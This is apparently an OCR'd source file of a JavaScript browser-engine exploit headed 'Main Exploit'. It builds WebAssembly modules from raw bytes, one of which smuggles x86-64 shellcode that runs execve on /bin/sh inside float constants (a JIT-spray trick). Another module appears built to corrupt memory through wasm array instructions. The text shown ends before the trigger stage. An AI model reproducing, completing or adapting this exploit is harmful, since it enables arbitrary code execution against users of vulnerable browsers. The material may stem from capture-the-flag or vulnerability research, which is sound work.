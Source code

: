 ```js
function sleep(ms) {
    return new Promise(resolve => setTimeout(resolve, ms));
}

function reverse(x) {
    var buf = new ArrayBuffer(0x20);
    var view1 = new BigInt64Array(buf);
    var view2 = new Uint8Array(buf);
    view1[0] = x;
    view2.reverse();
    return view1[3];
}

function assert(x) {
	console.assert(x);
}

function gc() {
  for (let i = 0; i < 0x20; i++) new ArrayBuffer(0x1000000);
}


////////////////////////////////////////////////////////////////////////
/////////////////////         Main Exploit         /////////////////////
////////////////////////////////////////////////////////////////////////

gc();

var wasm_code1 = new Uint8Array([0x00,0x61,0x73,0x6d,0x01,0x00,0x00,0x00,0x01,0x05,0x01,0x60,0x00,0x01,0x7c,0x03,0x02,0x01,0x00,0x07,0x08,0x01,0x04,0x6d,0x61,0x69,0x6e,0x00,0x00,0x0a,0x53,0x01,0x51,0x00,0x44,0xbb,0x2f,0x73,0x68,0x00,0x90,0xeb,0x07,0x44,0x48,0xc1,0xe3,0x20,0x90,0x90,0xeb,0x07,0x44,0xba,0x2f,0x62,0x69,0x6e,0x90,0xeb,0x07,0x44,0x48,0x01,0xd3,0x53,0x31,0xc0,0xeb,0x07,0x44,0xb0,0x3b,0x48,0x89,0xe7,0x90,0xeb,0x07,0x44,0x31,0xd2,0x48,0x31,0xf6,0x90,0xeb,0x07,0x44,0x0f,0x05,0x90,0x90,0x90,0x90,0xeb,0x07,0x44,0x0f,0x05,0x90,0x90,0x90,0x90,0xeb,0x07,0x1a,0x1a,0x1a,0x1a,0x1a,0x1a,0x1a,0x0b]);
var wasm_mod1 = new WebAssembly.Module(wasm_code1);
var wasm_instance1 = new WebAssembly.Instance(wasm_mod1);
var f1 = wasm_instance1.exports.main;


// to corrupt the pointer here.
var wasm_code_helper = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasm_mod_helper = new WebAssembly.Module(wasm_code_helper);
var wasm_instance_helper = new WebAssembly.Instance(wasm_mod_helper);
var f2 = wasm_instance_helper.exports.main;

var wasm_code = new Uint8Array([
  0x00, 0x61, 0x73, 0x6d, 0x01, 0x00, 0x00, 0x00, 0x01, 0x0e, 0x03, 0x5e,
  0x7e, 0x01, 0x60, 0x00, 0x01, 0x63, 0x00, 0x60, 0x01, 0x63, 0x00, 0x00,
  0x03, 0x03, 0x02, 0x01, 0x02, 0x07, 0x1b, 0x02, 0x0b, 0x63, 0x72, 0x65,
  0x61, 0x74, 0x65, 0x41, 0x72, 0x72, 0x61, 0x79, 0x00, 0x00, 0x09, 0x66,
  0x69, 0x6c, 0x6c, 0x41, 0x72, 0x72, 0x61, 0x79, 0x00, 0x01, 0x0a, 0x30,
  0x02, 0x07, 0x00, 0x41, 0x0c, 0xfb, 0x07, 0x00, 0x0b, 0x26, 0x00, 0x20,
  0x00, 0x41, 0x00, 0x42, 0x81, 0x80, 0x80, 0x80, 0xf0, 0xff, 0xff, 0xff,
  0x00, 0x41, 0x16, 0xfb, 0x10, 0x00, 0x20, 0x00, 0x41, 0x00, 0x42, 0xc9,
  0xa2, 0x93, 0x80, 0xd0, 0xf7, 0x01, 0x41, 0x15, 0xfb, 0x10, 0x00, 0x0b,
  0x00, 0x13, 0x04, 0x6e, 0x61, 0x6d, 0x65, 0x02, 0x06, 0x01, 0x01, 0x01,
  0x00, 0x01, 0x61, 0x04, 0x04, 0x01, 0x00, 0x01, 0x41
]);

```